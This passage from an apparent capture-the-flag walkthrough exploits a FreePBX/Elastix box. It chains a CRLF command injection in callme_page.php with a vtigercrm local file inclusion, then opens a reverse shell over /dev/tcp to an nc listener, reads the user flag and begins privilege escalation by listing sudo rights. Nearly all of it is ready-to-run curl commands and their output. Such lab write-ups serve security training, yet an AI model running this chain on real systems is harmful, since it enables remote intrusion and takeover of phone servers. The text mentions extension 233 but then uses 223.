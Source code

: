 With extension number (`233`) found let's put it togheter with our probing command (`id > /tmp/id`) into URL from Metasploit module and check content of `/tmp/id` with LFI.
```
ENCODED_CMD=$(echo "id > /tmp/id" | jq -sRr @uri)
EXTENSION=223
curl -s "https://$TARGET_IP/recordings/misc/callme_page.php?action=c&callmenum=$EXTENSION@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20$ENCODED_CMD%0D%0A%0D%0A" --insecure > /dev/null && \
curl -s "https://$TARGET_IP/vtigercrm/graph.php?current_language=../../../../../../../../tmp/id%00&module=Accounts&action" --insecure
```
```
uid=100(asterisk) gid=101(asterisk)
Sorry! Attempt to access restricted file. 
```

Remote command executed! Let's replace our probe with reverse shell command, but first we will start to listen for incoming connection with `nc`.
```
nc -lvnp 4444
```
```
listening on [any] 4444 ...
```

With everything in place let's run final version of our `curl` based exploit.
```
REVERSE_SHELL=$(echo "sh -i >& /dev/tcp/$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)/4444 0>&1" | jq -sRr @uri)
EXTENSION=$(curl -s "https://$TARGET_IP/vtigercrm/graph.php?current_language=../../../../../../../../etc/asterisk/sip_additional.conf%00&module=Accounts&action" --insecure | grep -Eo '^\[[^]]+\]' | tr -d '[]' | head -n 1)
curl -s "https://$TARGET_IP/recordings/misc/callme_page.php?action=c&callmenum=$EXTENSION@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20$REVERSE_SHELL%0D%0A%0D%0A" --insecure > /dev/null
```

And on `netcat` we have got reverse shell connection.
```
connect to [10.10.14.212] from (UNKNOWN) [10.129.66.230] 50209
sh: no job control in this shell
sh-3.2$ id
uid=100(asterisk) gid=101(asterisk)
```

We have gained a foothold, let's grab user flag and proceed to privilege escalation.
```
cat /home/fanis/user.txt
********************************
```

# Privileges escalation
Let's start with listing sudo privileges.
```
sudo -l
```
```
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
```